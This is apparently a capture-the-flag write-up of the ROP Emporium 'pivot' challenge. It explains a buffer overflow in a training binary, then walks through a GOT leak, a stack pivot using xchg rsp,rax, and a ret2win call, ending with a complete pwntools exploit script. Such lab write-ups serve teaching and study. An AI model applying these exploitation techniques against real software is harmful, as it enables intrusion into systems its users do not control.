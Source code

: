  Here is my write-up for Pivot! This is probably my second favorite challenge of the RopEmporium series. 

# Recon
According to the challenge description we have to call the `ret2win()` function which resides in the shared library given to us called `libpivot.so`. The problem is PIE is enabled on `libpivot.so`. This means that even though it is accessible at runtime, we have no idea where `ret2win()` will be located in order to call it. Somehow we must leak a value in `libpivot.so` at runtime, calculate the base address of `libpivot.so` and then find the address at runtime of `ret2win()`. And it looks like there is one such function that will allow us to do just that. 

Looking at the functions in the `pivot` binary in GDB, we see a function called `foothold_function()`. 

![](pivot-functions.png)

The challenge description hints that we will have to call this `foothold_function()` so that it will update its entry in the GOT. Then we will have to find a way to print out it's value in the GOT. The function's GOT value will be the address where it currently resides in `libpivot.so` at runtime. We can use this information to find the base address of `libpivot.so` and then  by extension the address of `ret2win()` at runtime. Now, let's have a look at the program itself so that we can get an idea of how to achieve this. 

![](program-menu.png)

When we run the program, we are presented with two prompts. The first asks us to send a ROP chain and tells us that it will land at a specific address. The second prompt asks us to smash the stack. So, based on what we know, the exploit chain will look something like this. At the first prompt, we will send a ROP chain that calls `foothold_function()` in order to populate the GOT and calls `puts()` with the `foodhold_function@got` address as the main argument so that we can print out the address of `foothold_function()` in the GOT at runtime. We will then return back to main so that we can finish our exploit chain. 

# Exploitation
The first payload, written with python and pwntools, can be seen below. 

```python
payload1 = flat([
    elf.symbols['foothold_function'],
    pop_rdi,
    elf.symbols.got['foothold_function'],
    elf.plt.puts,
    elf.symbols.main
])

p.sendline(payload1)
```

We call the `foothold_function()` (we can do this because it is imported into the program itself) and use a `pop rdi; ret;` gadget to pop the address of the `foothold_function()` in the GOT into the `rdi` register. This is where the first function argument is stored according to x86_64 bit calling conventions. Then, `puts()` is called which prints out the aforementioned address. Finally, `main()` is called so we can return back to the start of the program to finish our exploit chain. 

Now that's the first stage of the exploit written. The only problem is, after we send it and arrive at the second prompt, our ROP chain lays dormant at the `pivot` address we are given. So, somehow, we will have to utilize the second prompt to attempt to redirect program execution to our dormant ROP chain. 

The program itself hints that we will have to smash the stack and cause a buffer overflow to redirect program execution and this is confirmed by looking in Ghidra. 

```c
void pwnme(void *param_1)
{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Call ret2win() from libpivot");
  printf("The Old Gods kindly bestow upon you a place to pivot: %p\n",param_1);
  puts("Send a ROP chain now and it will land there");
  printf("> ");
  read(0,param_1,0x100);
  puts("Thank you!\n");
  puts("Now please send your stack smash");
  printf("> ");
  read(0,local_28,0x40);
  puts("Thank you!");
  return;
}
```

Above we can see that when we are asked to smash the stack, we are reading in 0x40 bytes into a 32 byte buffer. Here is our buffer overflow! Now we can hop into GDB to find the number of bytes we will need in order to cause the buffer overflow and gain control of the instruction pointer. 

![](stack-smash.png)

And, using a cyclic pattern, we found that the offset to the instruction pointer (`rip`) is 40 bytes! So now that we control program execution, how will we redirect execution to our ROP chain stored elsewhere in memory? That is where the `usefulGadgets()` function comes in! 

![](usefulgadgets.png)

The gadgets we are interested in are the `pop rax; ret;` and `xchg rsp, rax; ret` gadgets. These would allow us to pop our pivot address we are given into `rax`. Then we can call the `xchg` gadget which will take our address we popped into `rax` and put it into `rsp`. Now our stack pointer points to our dormant ROP chain in memory. That payload would look like the following. 

```python
offset = 40
pop_rax = 0x00000000004009bb
xchg_rsp_rax = 0x00000000004009bd

payload2 = flat([
    offset * 'a',
    pop_rax,
    pivot_address,
    xchg_rsp_rax
])
```

So once we send our second payload, our first payload will then execute. And as a result, we are back at `main()`. Before we can send our third payload to call `ret2win()` we need to take care of some things. As a result of our first ROP chain we have the address of `foothold_function()` at the GOT. We'll need to parse this address and then calculate the base address of `libpivot.so`. That code would look like the following. 

```python
libpivot = ELF('libpivot.so')

p.sendline(payload2)
p.recvuntil(b'libpivot')
data2 = p.recv()
data2 = data2.split(b'\n')
print(f'\nLeaked string here {data2[1]}\n')
byte_string = data2[1]
foothold_got = int(binascii.hexlify(byte_string[::-1]).decode('utf-8'), 16)

print(f'foothold@got {hex(foothold_got)}')

libpivot_base = foothold_got - libpivot.symbols.foothold_function
ret2win = libpivot_base + libpivot.symbols.ret2win
```

Once we receive our leaked address we can parse it and convert it to an integer. Then we can take our leaked address and subtract it by its offset within `libcpivot.so`. This will yield our `libpivot.so` base address! Then we can calculate the address of the `ret2win()` function by adding the `ret2win()` offset found in `libpivot.so` with the `libpivot.so` base address. Now we know the location of `ret2win()` at runtime! And we can have a look below at what our exploit looks like so far when we run the script. 

![](twopayloads-down.png)

So, now that we are back at `main()` we can send our final payload. This payload is quite simple; 40 bytes of junk and then our `ret2win()`  address! 

```python
payload3 = flat([
    offset * 'a',
    ret2win
    
])
p.sendline(payload3)
p.interactive()
```

With those three payloads we should get our flag. And we do, how about that! 

![](flag.png)

Below is the full exploit script. I hope you enjoyed this write-up! 

```python
from pwn import * 
import binascii

elf = context.binary = ELF('pivot')
libpivot = ELF('libpivot.so')

context.log_level = 'critical'

p = elf.process()

# Understand we need a GOT leak since we have to call ret2win() from the libpivot library which has PIE enabled 

pop_rdi = 0x0000000000400a33

offset = 40

payload1 = flat([
    elf.symbols['foothold_function'],
    pop_rdi,
    elf.symbols.got['foothold_function'],
    elf.plt.puts,
    elf.symbols.main
])

p.recvuntil(b'pivot: ')
data = p.recv()
data = data.split(b'\n')
pivot_address = int(data[0].decode(), 16)
print(f'Pivot address @ {hex(pivot_address)}')

p.sendline(payload1)

pop_rax = 0x00000000004009bb
xchg_rsp_rax = 0x00000000004009bd

payload2 = flat([
    offset * 'a',
    pop_rax,
    pivot_address,
    xchg_rsp_rax
])

p.sendline(payload2)
p.recvuntil(b'libpivot')
data2 = p.recv()
data2 = data2.split(b'\n')
print(f'\nLeaked string here {data2[1]}\n')
byte_string = data2[1]
foothold_got = int(binascii.hexlify(byte_string[::-1]).decode('utf-8'), 16)

print(f'foothold@got {hex(foothold_got)}')

libpivot_base = foothold_got - libpivot.symbols.foothold_function
ret2win = libpivot_base + libpivot.symbols.ret2win

payload3 = flat([
    offset * 'a',
    ret2win
    
])

p.sendline(payload3)
p.interactive()
```
